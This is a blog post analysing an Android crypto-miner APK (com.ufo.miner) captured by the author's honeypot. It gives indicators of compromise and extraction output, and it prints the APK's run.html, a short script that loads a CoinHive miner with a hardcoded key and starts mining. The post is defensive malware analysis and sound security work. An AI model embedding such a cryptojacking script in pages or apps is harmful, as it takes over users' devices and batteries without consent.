 ```yaml
---
slug: fishing-for-malware-2
title: "Fishing for Malware — Part Two: Android Crypto Miner"
authors: [sid]
keywords: ['sid', 'lacy', 'blog', 'website', 'cybersecurity', 'security', 'computer', 'honeypot', 'malware', 'tech', 'network']
tags: [analysis, projects]
description: "Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner"
summary: "Analysis of malware dropped into my Google Cloud honeypot — pulling apart a rudimentry Android cypto miner"
date: 2022-01-23
draft: false
---
```


## Information

### Indicators of Compromise

 - MD5: `8844985fcd57b0311d1d4cb2ec13a1ef`
 - SHA-1: `a0c07fe897515e5575a72f94f9dea8c077a410ff`
 - SHA-256: `0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257`
 - Package name: `com.ufo.miner`
 - Connected domain: `coinhive.com`
 - Unexpected high utilization of Android device resources

 ### File
 - Magic: APK archive
 - Language: Java
 - Size: 45.43 KB

[*See this file on VirusTotal*](https://www.virustotal.com/gui/file/0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257/detection)

As the heading and package name imply, this is a crypto miner developed for Android devices. However, that isn't particularly interesting on its own, and 45.43 KB is small — suspiciously small — so let's take a look inside the file.

## Source

### Extraction

```bash
$ unzip 0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip 
Archive:  0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip
  inflating: META-INF/MANIFEST.MF    
  inflating: META-INF/CERT.SF        
  inflating: META-INF/CERT.RSA       
 extracting: res/drawable-xhdpi-v4/ic_launcher.png  
  inflating: AndroidManifest.xml     
 extracting: res/drawable-hdpi-v4/ic_launcher.png  
  inflating: res/layout/activity_main.xml  
  inflating: assets/run.html         
 extracting: resources.arsc          
 extracting: res/drawable-mdpi-v4/ic_launcher.png  
  inflating: classes.dex             
 extracting: res/drawable-xxhdpi-v4/ic_launcher.png  
  inflating: res/menu/main.xml     
  
$
```
I see an HTML file, some PNG images, and some other files, the extensions of which I am not familiar with. Let's check them out.

```bash
$ cat assets/run.html
```
```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('fwW95bBFO91OKUsz1VhlMEQwxmDBz7XE',{
        threads:4,
        throttle: 0.8
});
    miner.start();
</script>
```

Sigh. It remains boring. *However,* by searching for the crypto wallet hardcoded into the HTML, I came across a presentation from [Fortinet](https://www.blackalps.ch/ba-18/files/talks/BlackAlps18-Axelle_Apvrille.pdf), indicating that this CoinHive-related malware may have been a part of the [Trinity Android P2P malware bot](https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/11/22/trinity_p2p_malware-8S4I.html), which *is* quite interesting. Alas, that is a rabbit hole for another blog post.

Each PNG was a rescaled version of the stock Android logo — not much to say beyond that.

How I assume this malware works:

1. The victim's stock web browser embeds into an app frame in the background.

2. Instructions are received from CoinHive.

3. The miner starts working, sending proof of work to the address hardcoded into the script.

4. The victim's phone gets too hot, or the battery drains too fast; upon seeing the culprit as *com.ufo.miner* in the power report of the device, the victim promptly uninstalls the application.

## Personal Thoughts

This is a very small application and doesn't perform any particularly special operations; in fact, I debated including it in this series at all. More interesting that the malware itself to me, however, is the platform it targets.

In the context of cryptocurrency mining, Android devices are not particularly powerful, and therefore not as lucrative as most other computing machines. It would take a vast, vast array of Android smartphones/tablets/et cetera to generate even a moderate amount of the more popular cryptocurrencies available today, such as Bitcoin. This issue is exacerbated by the ease of detection; many users infected with this malware, I would reason, could trivially identify its existance via the power usage utility on their respective Android device, thereby shortening runtime.

A humorus reference to Coinhive's `coinhive.min.js` script I found online: ["Stack Overflow: \[Coinhive header\] automatically appears in my website"](https://stackoverflow.com/questions/48375946/script-src-https-coinhive-com-lib-coinhive-min-js-script-automatically-a/48376076#48376076)

And, finally, kudos to Troy Hunt, who [bought the Coinhive domain and shut it down](https://www.troyhunt.com/i-now-own-the-coinhive-domain-heres-how-im-fighting-cryptojacking-and-doing-good-things-with-content-security-policies/).

Thanks so much for reading!

---

**[Fishing for Malware: Part 3 →](/posts/fishing-for-malware-3)**  
**[← Fishing for Malware: Part 1](/posts/fishing-for-malware-1)**

I am open to comments and critisism — I learn alongside you. Please, do not hesitate to [suggest an edit](mailto:contact@swlacy.com?subject=Blog%20Edit%20Suggestion).

---

Sid Lacy  
[Email](mailto:contact@swlacy.com?subject=Hello!) • [LinkedIn](https://www.linkedin.com/in/lacysw/) • [GitHub](https://github.com/lacysw)